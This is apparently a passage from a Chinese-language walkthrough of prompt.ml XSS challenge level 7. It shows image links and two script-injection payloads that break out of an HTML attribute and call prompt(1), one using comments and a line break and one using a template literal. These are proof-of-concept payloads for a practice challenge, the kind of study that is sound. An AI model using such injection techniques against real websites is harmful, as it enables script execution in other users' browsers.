 ![7_3](/img/xss/prompt_ml/level7_003.png)

3. 1234是为了换行

```
"><script>/*#*/prompt(/*#*/1)/*#*/</script>
1234
```

![7_4](/img/xss/prompt_ml/level7_004.png)

4. ``"><script>`#${prompt(1)}#`</script>``
